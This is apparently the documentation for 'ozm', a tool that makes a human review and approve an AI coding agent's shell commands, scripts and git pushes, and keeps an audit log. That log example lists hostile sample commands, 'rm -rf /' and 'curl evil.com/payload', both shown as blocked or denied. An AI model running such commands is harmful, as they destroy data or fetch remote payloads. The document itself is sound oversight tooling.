


# Commands

## ozm run

Run a script after content review. The script's SHA-256 hash is recorded on first approval — subsequent runs of the same unmodified file execute immediately.

```
ozm run <script> [args...]
```

**First run (or after modification):**

```
$ ozm run deploy.sh production
```

A native macOS dialog appears showing the full file with syntax highlighting. You can Allow or Deny, with an optional feedback message that gets printed to stderr for the agent to read.

If the file has changed since last approval, the dialog shows a syntax-highlighted diff instead of the full file.

**Subsequent runs (unchanged):**

```
$ ozm run deploy.sh production
# executes immediately, no prompt
```

**Scripts must have a shebang.** ozm executes scripts directly, so the first line must declare the interpreter:

```python
#!/usr/bin/env python3
print("hello")
```

```bash
#!/usr/bin/env bash
echo "hello"
```

### Flow



---

## ozm cmd

Run an arbitrary shell command after approval. The command string is hashed — approve once and it runs without prompting until you reset.

```
ozm cmd <command> [args...]
```

**Examples:**

```bash
# Install a package
$ ozm cmd uv pip install requests

# Run a one-liner
$ ozm cmd curl https://api.example.com/health

# Multi-word commands work naturally
$ ozm cmd docker compose up -d
```

**Script detection:** If ozm detects you're trying to run a script file (e.g. `ozm cmd python script.py`), it will suggest using `ozm run` instead and exit. This ensures scripts go through content review.

```
$ ozm cmd python myscript.py
ozm: use 'ozm run myscript.py' instead — make sure the script has a shebang (#!/usr/bin/env python3)
```

**Editable commands:** The macOS approval dialog lets you edit the command before running it. You can also enter an allowlist pattern (e.g. `curl https://api.example.com/*`) that gets saved to `.ozm.yaml` for future use.

**Approval order:**

1. Blocked by `.ozm.yaml` `blocked_commands`? Deny immediately.
2. Matches `.ozm.yaml` `allowed_commands`? Run immediately.
3. Hash matches a previous approval? Run immediately.
4. Otherwise, show approval dialog.

### Flow



---

## ozm git

Git pass-through with rule enforcement on commit and push. All other git subcommands pass through unmodified.

```
ozm git <subcommand> [args...]
```

**Commit rules:**

```bash
# Normal commit — subject must be <= 72 chars, total <= 500 chars
$ ozm git commit -m "Fix authentication timeout"

# Blocked: subject too long
$ ozm git commit -m "This is a very long commit message that exceeds the seventy-two character limit for subject lines"
# ozm: commit blocked:
#   - Subject line is 97 chars (max 72)
```

**Push rules:**

```bash
# Normal push
$ ozm git push origin feature-branch

# Blocked: force push
$ ozm git push --force
# ozm: force push is not allowed

# Blocked: push to protected branch
$ ozm git push
# (on main) ozm: pushing to 'main' is not allowed
```

**Other git commands pass through unchanged:**

```bash
$ ozm git status
$ ozm git diff
$ ozm git log --oneline -10
$ ozm git branch -a
```

**Configurable rules** (via `.ozm.yaml`):

- `allow_attribution: false` — blocks `Co-Authored-By:` lines in commit messages
- `require_branch: true` — prevents commits directly on main/master
- `branch_prefixes: ["user/", "feat/", "fix/"]` — requires branch names to start with a listed prefix

---

## ozm install

Install ozm hooks system-wide. This registers a Claude Code `PreToolUse` hook in `~/.claude/settings.json` that intercepts all Bash tool calls and routes them through ozm.

```
ozm install [--project]
```

**System-wide install (default):**

```bash
$ ozm install
ozm: installing...
  hook: /Users/you/.ozm/hooks/enforce.sh
  claude: /Users/you/.claude/settings.json
ozm: done
```

This writes the enforcement hook script and configures Claude Code to use it. The hook applies to all projects.

**With project docs:**

```bash
$ ozm install --project
```

Also writes `CLAUDE.md` and `AGENTS.md` in the current directory with ozm usage instructions for the agent.

---

## ozm status

Show tracked files and commands with their current approval status.

```
ozm status
```

**Output:**

```
$ ozm status
  [     ok] deploy.sh
  [CHANGED] setup.py
  [MISSING] old_script.sh
  [     ok] cmd:uv pip install -e .
  [     ok] cmd:pytest
```

Labels:
- **ok** — hash matches, will execute without prompting
- **CHANGED** — file has been modified since approval, will prompt again
- **MISSING** — file no longer exists

---

## ozm reset

Forget approval for a specific script or all tracked entries in the current project.

```
ozm reset <script>
ozm reset --all
```

**Examples:**

```bash
# Forget one script
$ ozm reset deploy.sh
Forgot approval for deploy.sh

# Forget everything in this project
$ ozm reset --all
All approvals cleared for this project.
```

After reset, the next `ozm run` or `ozm cmd` will prompt for approval again.

---

## ozm log

Show recent entries from the audit log at `~/.ozm/audit.log`. Every approval, denial, and block is recorded with timestamp, action, type, working directory, and target.

```
ozm log [-n COUNT]
```

**Examples:**

```bash
# Show last 20 entries (default)
$ ozm log

# Show last 5 entries
$ ozm log -n 5
2026-04-26 10:15:03  cached     cmd  /Users/you/project  pytest
2026-04-26 10:15:45  blocked    cmd  /Users/you/project  rm -rf /
2026-04-26 10:16:12  clicked    run  /Users/you/project  /Users/you/project/deploy.sh
2026-04-26 10:17:01  denied     cmd  /Users/you/project  curl evil.com/payload  # looks suspicious
2026-04-26 10:18:30  config     cmd  /Users/you/project  docker compose up
```

Actions: `clicked` (user approved), `cached` (hash matched), `config` (allowlist match), `denied`, `blocked`, `no-dialog` (GUI unavailable, command blocked).

The `# comment` at the end is the user's feedback from the approval dialog.

---

## ozm doctor

Run diagnostic checks to verify ozm is installed and configured correctly.

```
ozm doctor
```

**Output:**

```
$ ozm doctor
  [  ok] ozm binary: ozm found at /Users/you/.local/bin/ozm
  [  ok] hook script: hook script at /Users/you/.ozm/hooks/enforce.sh
  [  ok] claude settings: Claude Code hook configured in settings.json
  [  ok] pygments: pygments 2.20.0 available
  [  ok] project config: .ozm.yaml found at /Users/you/project/.ozm.yaml

All checks passed.
```

**Checks performed:**

| Check | What it verifies |
|-------|-----------------|
| ozm binary | `ozm` is on your PATH |
| hook script | `~/.ozm/hooks/enforce.sh` exists and is executable |
| claude settings | `~/.claude/settings.json` has the PreToolUse hook configured |
| pygments | pygments is installed (enables syntax highlighting) |
| project config | `.ozm.yaml` exists in the current project |

---

## ozm trust

Activate the `.ozm.yaml` from the current project. This copies the in-repo config into `~/.ozm/projects/` where ozm actually reads it at runtime. The in-repo file is never read directly — this is a security boundary.

```
ozm trust
```

**Example:**

```bash
$ cd new-project
$ ozm trust
ozm: copied /Users/you/new-project/.ozm.yaml -> /Users/you/.ozm/projects/new-project-a1b2c3d4.yaml
```

**Why this matters:** An agent (or a cloned repo) can edit `.ozm.yaml` freely, but the changes have no effect until a human explicitly runs `ozm trust`. This prevents a repo from silently adding allowlist entries.

**Optional:** ozm works without any config — all commands simply go through the approval dialog or hash cache. Config is only needed to pre-approve or block specific patterns.
